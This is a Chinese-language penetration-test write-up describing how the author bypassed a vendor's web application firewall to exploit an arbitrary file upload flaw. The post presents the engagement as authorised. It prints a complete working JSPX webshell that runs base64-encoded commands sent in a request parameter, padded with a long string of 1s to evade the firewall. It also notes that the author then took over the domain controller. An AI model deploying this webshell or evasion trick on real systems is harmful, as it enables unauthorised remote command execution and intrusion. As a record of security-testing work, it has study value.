# 006-实战bypass篇-文件上传bypass某某信waf

## **1. 故事前言**

在某次授权项目中，上传处碰到某某信waf，记下bypass过程。

## **2. 验证漏洞**

故事开始，碰到个某某系统，使用了xx组件，存在任意文件上传漏洞。

上传JSP文件，验证漏洞



访问200，上传成功，漏洞存在



## **3. waf拦截**

上传webshell，403，被waf拦截🤔。



是我孤陋寡闻了，只通过403界面无法分辨是何方waf。



但是返回包中的信息，出卖了它的身份，是某某信网神waf。



```http
HTTP/1.1 403 Forbidden
Server:CWAP-waf
X-Powered-By:anyu.**xin.com
```



## **4. 尝试绕过**

对Webshell进行Unicode编码后再上传，被拦截。



打印hello word，上传被拦截。



经过多次的上传测试发现，这个waf的规则设定了，允许上传JSP后缀的文件，但请求包中出现<%后会被拦截，如果用<+%来替代，则是可以成功上传的，但不能解析。大概摸清楚规则后，感觉是要凉了。

果然，人生当中成功只是一时的，失败却是主旋律😔。

怎么可能，JSPX后缀还没试嘞，哈哈哈。随便搞个了JSPX的demo，发现JSPX的拦截力度小很多，只是保存失败了。


上传一句话JSPX小马，在小马中插入长字符串用来逃过waf检测，上传成功。



```java
<jsp:root xmlns:jsp="http://java.sun.com/JSP/Page" xmlns="http://www.w3.org/1999/xhtml" xmlns:c="http://java.sun.com/jsp/jstl/core" version="2.0"></br>
<jsp:directive.page contentType="text/html;charset=UTF-8" pageEncoding="UTF-8"/></br>
<jsp:directive.page import="java.util.*"/></br>
<jsp:directive.page import="java.io.*"/></br>
<jsp:directive.page import="sun.misc.BASE64Decoder"/></br>
<jsp:scriptlet><![CDATA[</br>
        String a = "111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111";</br>
	String tmp = pageContext.getRequest().getParameter("str");</br>
	if (tmp != null&&!"".equals(tmp)) {</br>
	try{</br>
		String str = new String((new BASE64Decoder()).decodeBuffer(tmp));</br>
		Process p = Runtime.getRuntime().exec(str);</br>
		InputStream in = p.getInputStream();</br>
		BufferedReader br = new BufferedReader(new InputStreamReader(in,"GBK"));</br>
		String brs = br.readLine();</br>
		while(brs!=null){</br>
			out.println(brs+"</br>");</br>
			brs = br.readLine();</br>
		}</br>
		}catch(Exception ex){</br>
			out.println(ex.toString());</br>
		}</br>
	}]]></br>
</jsp:scriptlet></br>
</jsp:root>
```

拿捏，成功getshell。



## **5. 内网环节**

这个内网比较脆弱，没啥技术含量，历史漏洞就拿下域控了，就不过多赘述了。



